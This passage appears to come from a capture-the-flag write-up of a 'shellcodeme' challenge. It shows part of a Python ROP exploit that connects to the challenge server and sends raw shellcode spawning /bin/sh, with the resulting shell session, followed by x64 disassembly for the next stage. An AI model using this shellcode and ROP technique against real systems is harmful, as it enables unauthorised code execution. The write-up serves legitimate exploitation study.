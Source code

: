 ```python
payload += p(POP3RET)           # fix stack
payload += p(0x0)               # stdin
payload += p(0x20000000)        # address
payload += p(1024)              # copied value
 
payload += p(0x20000000)        # return to shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('pwnable.katsudon.org', 33201))
 
# send first stage
s.send(payload)
 
# for some reason, this delay was necessary
time.sleep(0.05)
 
# send shellcode, spawns /bin/sh
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")
 
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

I thought I was home-free! Let's cat that flag and be done with it! But what's this? (Yes, I've started using kali! =))

```bash
root@kali:~# python exploit.py
id
uid=1000(shellcodeme) gid=1000(shellcodeme) groups=1000(shellcodeme)
ls -alh
total 36K
dr-xr-xr-x 2 root shellcodeme2 4.0K Dec 22 22:09 .
drwxr-xr-x 3 root root         4.0K Dec 22 22:09 ..
-rw-r--r-- 1 root shellcodeme2  220 Sep 26 04:49 .bash_logout
-rw-r--r-- 1 root shellcodeme2 3.4K Sep 26 04:49 .bashrc
-rw-r--r-- 1 root shellcodeme2  675 Sep 26 04:49 .profile
-r--r----- 1 root shellcodeme2   34 Dec 22 22:09 flag
-r-xr-sr-x 1 root shellcodeme2 8.5K Dec 22 22:09 shellcodeme2
cat flag 2>&1
cat: flag: Permission denied
```

Gah! We need to exploit another binary! This one is the same C code, but compiled as x64 code... I transferred the binary over to my box and started poking it. 

The basic solution stays the same: mprotect, read, shellcode, flag. The problem with x64 is that we cannot pass the arguments to calls on the stack: that goes via registers. The two functions I needed are here:

```bash
   0x00000000004005f2 <+53>:    mov    edx,0x400
   0x00000000004005f7 <+58>:    mov    rsi,rax
   0x00000000004005fa <+61>:    mov    edi,0x0
   0x00000000004005ff <+66>:    mov    eax,0x0
   0x0000000000400604 <+71>:    call   0x400490 <read@plt>
   0x0000000000400609 <+76>:    mov    edx,0x1
   0x000000000040060e <+81>:    mov    esi,0x400
   0x0000000000400613 <+86>:    mov    edi,0x20000000
   0x0000000000400618 <+91>:    call   0x4004c0 <mprotect@plt>
```
